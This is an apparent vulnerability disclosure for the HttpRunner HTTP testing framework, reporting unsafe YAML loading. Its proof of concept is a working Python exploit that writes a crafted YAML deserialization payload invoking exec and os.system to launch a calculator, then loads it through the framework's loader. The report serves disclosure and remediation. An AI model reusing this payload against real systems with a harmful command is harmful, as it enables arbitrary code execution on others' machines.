 # Description

`HttpRunner` is a simple & elegant, yet powerful HTTP(S) testing framework.

# Vulnerability

Vulnerable to YAML deserialization attack caused by unsafe loading.

# Proof of Concept

### Installation
```bash
pip3 install httprunner
```

### Run exploit.py
```
import os
#os.system('pip3 install httprunner')
from httprunner import loader
exploit = """!!python/object/new:type
  args: ["z", !!python/tuple [], {"extend": !!python/name:exec }]
  listitems: "__import__('os').system('xcalc')"
"""
open('pwn.yml','w+').write(exploit)
loader._load_yaml_file('pwn.yml')
```
* `python3 exploit.py`

# Impact

Arbitary Code Execution
